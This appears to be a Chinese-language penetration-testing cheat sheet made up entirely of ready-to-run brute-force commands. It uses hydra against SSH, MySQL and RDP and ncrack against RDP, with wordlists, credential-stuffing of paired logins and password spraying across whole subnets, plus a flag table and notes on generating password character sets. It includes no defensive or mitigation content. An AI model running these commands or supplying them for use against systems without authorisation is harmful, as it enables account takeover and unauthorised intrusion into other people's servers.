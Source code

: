 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |

## rdp/hydra

```sh
hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
```

## rdp/御剑RDP爆破工具

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```
